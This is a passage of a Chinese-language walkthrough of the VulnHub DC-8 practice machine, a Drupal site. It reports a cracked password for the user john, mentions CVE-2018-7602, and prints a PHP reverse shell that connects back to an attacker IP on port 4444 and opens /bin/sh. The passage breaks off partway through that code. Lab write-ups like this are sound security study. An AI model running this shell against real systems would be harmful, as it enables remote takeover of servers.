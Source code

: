 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/7.png)

只跑出 john 的密码 turtle,那先用这个账号登录

回过头去测 CVE-2018-7602 也是一个方法,不过公开的 poc 利用于 Drupal 8,7当然也是受影响的,你可以尝试修改 poc

在爆破的时候顺带扫一下目录,发现有个登录点 `http://192.168.141.141/user`

登录后发现有一处直接执行 php 代码的地方

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/8.png)

是个表单设置,可能要用 Contact us 触发

和 DC7 一样的 PHP 反向 shell 代码

`!!!注意: 一定要在 php 代码最前面加一些字符,大坑,搞了好久才发现!!!`

```php
rdfgdfgdfgsdfgsfgsdf

<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.141.134';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");
umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
```